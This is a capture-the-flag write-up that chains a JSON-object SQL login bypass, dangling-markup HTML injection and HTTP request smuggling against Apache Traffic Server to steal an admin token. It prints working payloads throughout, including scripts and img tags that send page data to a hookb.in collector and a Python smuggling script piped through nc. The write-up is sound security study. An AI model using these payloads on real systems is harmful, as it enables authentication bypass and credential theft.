 ## PALINDROME's Secret
We are given a website and its source code.

This web application requires 3 exploits to be able to retrieve the flag. 
1. SQL injection (not your normal SQL payload) to *log in*
1. HTTP Request Smuggling (damn cool, never learnt before) to make a request to a protected URL.
1. Cross-Site Scripting (sort of, but it is HTML Injection) to steal the administrator token.

![Login Page](./Images/Challenge5_1.png)

```js
const postLoginHandler = async (req, res) => {
    const { email, password } = req.body
    if (!email || !password)
        return res.status(400).send({ message: 'Missing email or password' })

    const rows = await query(`SELECT * FROM users WHERE email = ? AND password = ?`, [email, password])
    if (rows.length === 0)
        return res.status(401).send({ message: 'Invalid email or password' })

    req.session.userId = rows[0].id
    return res.status(200).send({ message: "Success" })
}
```

This is the login handler. We can use the exploit [here](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) to perform sql injection and obtain a login token.

```json
{
    "email":{
        "email": 1
    },
    "password":{
        "password": 1
    }
}
```
![Login Success](./Images/Challenge5_2.png)

We use burpsuite to intercept the request, change the json object that is POST-ed and then we can login into the portal! Later on, I needed to keep creating new sessions as I was trying to craft the payload. A faster way to *log in* will be to send a POST request in repeater, without the cookie, when the web server replies with the success message, copy out the generate session token and edit the cookie in firefox to have a fresh session.

![Login Success GUI](./Images/Challenge5_3.png)

The only place the admin token is present is in the middleware. It seems like we need the connection to originate from localhost. Probably means we need to find some place to conduct an SSRF attack.

```js
const authenticationMiddleware = async (req, res, next) => {
    if (req.session.userId) {
        if (req.ip === '127.0.0.1')
            req.session.token = process.env.ADMIN_TOKEN 

        next()
    }
    else 
        return res.redirect('/login')
}
```

The place with the highest chance of SSRF looks like the `report-issue` feature, where we can input an URL to the server to scan (the server will use puppeteer to visit the URL). However the `do-report` feature is blocked by the proxy. The `do-report` path is mapped to `forbidden`, instead of `do-report`.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

It seems like the proxy used is `Trafficserver 9.1.0`. This seems to be an old version of Apache Traffic Server.

```
RUN curl -L https://archive.apache.org/dist/trafficserver/trafficserver-9.1.0.tar.bz2 > ats.tar.bz2 && \
    tar xf ats.tar.bz2 && \
    cd trafficserver-9.1.0 && \
    ./configure --prefix=/opt/ts && \
    make && \
    make install
```

I was quite sure that it was HTTP request smuggling since the `remap.config` looks properly configured and the only other way to `/do-report` is through smuggling. I made a detour to think about the final step first. 

Even if we can make a request to `/do-report`, what URL should we provide it? My first idea was naive. I tried to host a web server which returns javascript to make puppeteer visit `https://localhost:8000/token` and then return the html response. Well it failed, because of CORS. A browser doesn't let you make requests to servers that don't allow CORS.

Inside `main.js` we can see this:
```js
res.setHeader(
        'Cross-Origin-Opener-Policy',
        'same-origin'
    )
```

This is the example payload in the URL.
```html
<script>
  let req = new XMLHttpRequest();
  req.open("GET", "http://localost:8000/index");
  req.onreadystatechange = function () {
    if (req.readyState === 4) {
      const req2 = new XMLHttpRequest();
      req2.open("POST", "https://hookb.in/8PVJYNKQqEUpVYopj8VX", true);
      req2.setRequestHeader("Content-Type", "application/json");
      req2.send(JSON.stringify({"response": req.status }));
    }
  };
  req.setRequestHeader("Content-Type", "application/json");
  req.responseType = "json";
  req.send(JSON.stringify({ "username" : "yolo" }));
  req.send();
</script>
```

Well then the only other way is to really make puppeteer, retrieve the token from somewhere inside `localhost:8000` and then return us the token. My first thought was something like reflected XSS, but there are no fields that allow us to do so. Persistent XSS was possible though. Inside `/token`, you can input **any** username you want, and then the token generated can be used as XSS inside `/verify?token=...`. It is now clear where to steal the admin token, the admin token will be revealed inside `http://localhost:8000/verify?token=...` right behind the `!{username}` tags.

```pug
            | This token belongs to !{username}.
            | If !{username} asks for your token, you can give them this token: #{token}.
```

My first idea was to insert `<script>` tags.

![XSS](./Images/Challenge5_4.png)

Well, nothing worked. Let's check the `Content-Security-Policy`. Inside `main.js`:

```js
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
```

It seems like we won't be able to load scripts that are not from the server itself. The only thing we are able to inject will be `img src` tags. Let's try to craft a `img` tag payload. The only one that was able to succeed was `<img src="c2server/c2url?a=` As the unclosed `"` and `>` will mean that we can steal some text from behind where `username` was rendered. 

![Img tag](./Images/Challenge5_5.png)

Using `<img src="...` as payload. We can see that the second `img src` gets broken off.

![img src](./Images/Challenge5_6.png)

Our *pathetic* loot from the server:

![returned payload](./Images/Challenge5_6_1.png)

After experimenting many more payloads, the final payload looks like this. It looks like the HTML injection worked and we can steal the user's token. Now we just need to smuggle the request to this page to the backend server.

`"><img src="https://hookb.in/6J1enM3l90ToO0ro3Px9?steal=`
![img src success](./Images/Challenge5_7.png)

We got our own token back, this means that if the administrator visits this page, we will get the administrator token.

![returned payload success](./Images/Challenge5_7_1.png)

Now back to the HTTP request smuggling. After some extensive googling, an [HTTP request smuggling exploit](https://hackerone.com/reports/1238099) for ATS 9.0.0 looks promising. I downloaded the `poc.zip` and then used `payload2.py` to craft my payload. I first used hookbin as the URL so that I can check if the HTTP request smuggling succeeded, this particular python payload was able to return a request to my hookbin endpoint.

```python
import sys

def h(n):
    return hex(n)[2:].encode()

payload = b"{\"url\": \"https://hookb.in/Lg3WWl6pPMi1lrp1aGn1\"}"
cookie = b"Cookie: connect.sid=s%3AU9-fwBPGCKnA9HEFOKwZnRwDoaMu9pzq.zDzhgdHfIrIYYtibgwtTPLAymXU9niSE0BvhDgpl6Yw"

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Content-Type: application/json" + b"\r\n" +
    b"Content-Length: " + str(len(payload)).encode() + b"\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    payload + b"\r\n" +
    b"0\r\n\r\n"
)

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /index HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Transfer-Encoding: chunked\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)
```

`python payload2.py | nc 128.199.237.165 23627`

Now, all that is left is to put in the "XSS" payload into a token and then make puppeteer visit the URL. I replaced the URL in the `payload2.py` to `payload = b"{\"url\": \"http://localhost:8000/verify?token=TISC%7B2%3A2%3A3%3A9%3A7%3Ax%3An%3Ar%3A4%3Au%7D\"}"`. And we get the flag!

![Flag](./Images/Challenge5_8.png)

So let's run through the steps again.
1. First I used SQLi using json payloads to login into the console. 
1. Then I crafted a [HTTP Dangling Markup Injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) payload which allows us to steal the html text. The username is entered as the payload and the resulting token produced will be the URL that we want puppeteer to visit. 
1. Then I used HTTP request smuggling to make a request to `/do-report` so that it will visit the verify token page. Once puppeteer visits the URL, the dangling markup will be able to capture the token and return it to us.

